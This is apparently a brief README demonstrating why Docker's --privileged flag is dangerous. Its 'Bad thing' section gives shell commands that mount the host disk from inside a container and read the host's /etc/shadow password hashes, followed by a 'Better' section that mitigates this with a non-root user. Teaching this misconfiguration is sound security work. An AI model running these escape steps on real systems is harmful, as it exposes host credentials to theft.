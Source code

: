 # privileged

An exmaple of doing a bad thing to an unsecured container.

## Bad thing

```shell
cd ~/git/privileged
docker build -t privileged:latest .
docker run --rm -it --privileged privileged:latest bash
mount /dev/sdc /mnt/gotcha
cd /mnt/gotcha
ls -l

cat /mnt/gotcha/etc/shadow
```

## Better

Uncomment the new user creation in `Dockerfile`, then

```shell
docker build -t privileged:latest .
docker run --rm -it --privileged privileged:latest bash
mount /dev/sdc /mnt/gotcha
whoami
```
